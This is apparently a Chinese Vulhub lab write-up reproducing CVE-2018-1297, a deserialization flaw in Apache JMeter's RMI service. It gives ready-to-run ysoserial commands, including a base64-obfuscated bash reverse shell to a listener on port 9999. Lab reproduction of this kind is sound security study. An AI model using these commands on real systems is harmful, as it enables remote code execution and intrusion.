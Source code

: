 # Jmeter RMI 反序列化命令执行漏洞 CVE-2018-1297

## 漏洞描述

Apache JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

运行完成后，将启动一个RMI服务并监听1099端口。

## 漏洞复现

直接使用ysoserial即可进行利用：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

![image-20220224184247828](./images/202202241842237.png)

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

![image-20220224184300323](./images/202202241843397.png)

反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit 192.168.174.128 1099 BeanShell1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

监听9999端口，成功接收反弹shell：

![image-20220224184640447](./images/202202241846550.png)

